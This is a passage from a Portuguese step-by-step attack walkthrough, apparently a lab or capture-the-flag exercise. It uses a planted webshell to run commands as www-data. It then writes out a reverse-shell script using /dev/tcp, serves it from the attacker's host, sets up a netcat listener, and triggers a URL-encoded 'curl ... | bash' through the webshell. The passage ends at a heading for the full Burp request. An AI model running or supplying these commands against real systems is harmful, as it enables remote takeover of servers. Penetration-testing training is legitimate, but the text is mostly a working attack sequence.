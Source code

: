 
## 🔹 **PASSO 7 – Usando a WebShell para testar**

No navegador ou via Burp, faça:

```http
GET /_ul/vert16x?cmd=id
```

Retorna algo como:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## **PASSO 8 – Reverse Shell usando `curl | sh`**

### 1. Crie `shell.sh` no seu Kali:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.0.21.49/4444 0>&1
```

**Use seu IP real da VPN/Kali.**

---

### 2. Suba o servidor para servir esse arquivo:

```bash
cd onde/está/shell.sh
python3 -m http.server 80
```

---

### 3. Netcat ouvindo:

```bash
nc -lvnp 4444
```

---

### 4. Enviar via WebShell com **URL Encode** (como no PDF):

```bash
cmd=curl%20http%3A%2F%2F10.0.21.49%2Fshell.sh%7Cbash
```

---

### 5. Requisição completa via Burp:
